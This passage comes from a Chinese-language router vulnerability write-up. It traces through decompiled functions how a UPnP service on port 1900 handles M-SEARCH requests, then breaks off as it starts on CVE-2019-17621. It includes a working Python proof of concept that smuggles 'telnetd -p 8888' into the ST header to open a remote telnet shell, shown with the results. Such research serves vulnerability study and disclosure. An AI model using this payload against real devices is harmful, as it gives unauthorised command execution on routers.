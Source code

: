 ![](https://mmbiz.qpic.cn/sz_mmbiz_png/1UG7KPNHN8HoL8rWLfqC4l5ibczH6C2H4wtRf3diaBxiaFXpwbjC5MicpH60BI1Un6rg92W8CTfw1ibW8mkKKykibkzA/640?wx_fmt=png)

可以看到 sub_41BFDC 函数中有对其的操作，再交叉引用到调用 sub_41BFDC 的 sub_41C2A0 函数，这里要求我们的请求方式是 M-SEARCH：

![](https://mmbiz.qpic.cn/sz_mmbiz_png/1UG7KPNHN8HoL8rWLfqC4l5ibczH6C2H4tfxoylAZXHyeSsP0p3ExdlPE5z8BjuicCSyHibRdXG4egR8tKcN3iboGw/640?wx_fmt=png)

上图中的 v10 是调用 ILibParsePacketHeader 对 a1 + 108 的数据包解析的结果，而 a1 + 108 是接收到的 socket 套接字储存的地方：

![](https://mmbiz.qpic.cn/sz_mmbiz_png/1UG7KPNHN8HoL8rWLfqC4l5ibczH6C2H4b1L3RYib7Gpe7gurJZuMRalmr9V6SUJ3icu9aKhTNbhWZcU0496NOjzg/640?wx_fmt=png)

在 sub_415C9C 中也可以看到，把 socket 绑定到了 1900 端口：

![](https://mmbiz.qpic.cn/sz_mmbiz_png/1UG7KPNHN8HoL8rWLfqC4l5ibczH6C2H4DOJiaZpW3FCnncCM0Htc1r16u9zqb3Bpr8GzPASLYeRibzM9ib23ooo5w/640?wx_fmt=png)

再回到有对 ST 字段进行匹配操作的 sub_41BFDC 函数，可以看到首先需要绕过下面圈出的判断，这里的 1.1 显然就是 HTTP 版本：

![](https://mmbiz.qpic.cn/sz_mmbiz_png/1UG7KPNHN8HoL8rWLfqC4l5ibczH6C2H4NWKk7ia77V5USiaAHFYILVxm5egHzauOa6fmqWP9VNtYGsicAwTvhRCsg/640?wx_fmt=png)

综上，从 upnp 二进制文件中可以看到，我们得是 M-SEARCH 请求方式，故：报文头应为 M-SEARCH * HTTP/1.1。

**POC：**

```
# python3
from socket import *
from os import *
from time import *
 
payload = b'M-SEARCH * HTTP/1.1\r\n'
payload += b'HOST:localhost:1900\r\n'
payload += b'ST:urn:device:;telnetd -p 8888\r\n\r\n'
 
s = socket(AF_INET, SOCK_DGRAM, 0)
s.sendto(payload, ("192.168.10.1", 1900))
s.close()
 
sleep(1)
system("telnet 192.168.10.1 8888")
```

最终成功开启了 8888 端口，利用 telnet 远程登陆到了路由器固件中，可执行任意命令：

![](https://mmbiz.qpic.cn/sz_mmbiz_png/1UG7KPNHN8HoL8rWLfqC4l5ibczH6C2H4J81muz0uFV009WIUAtrNmG8MxssupibBwVjlZHwXxjeCRxwdBHzgyvg/640?wx_fmt=png)

通过 ps 命令查看进程，可以发现 telnetd -p 8888 命令的确已经被成功执行：

![](https://mmbiz.qpic.cn/sz_mmbiz_png/1UG7KPNHN8HoL8rWLfqC4l5ibczH6C2H4W0mHyiaLtic9PxnP8MicicrhXDwtkUk1Xhl7ibUtB85g9bouezZCu4VLHXA/640?wx_fmt=png)

三  

  

**CVE-2019-17621**

漏洞信息：CVE-2019-17621（_https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-17621_）

这个漏洞与 gena.cgi 有关，还是先看到 cgibin 中的 genacgi_main 函数：
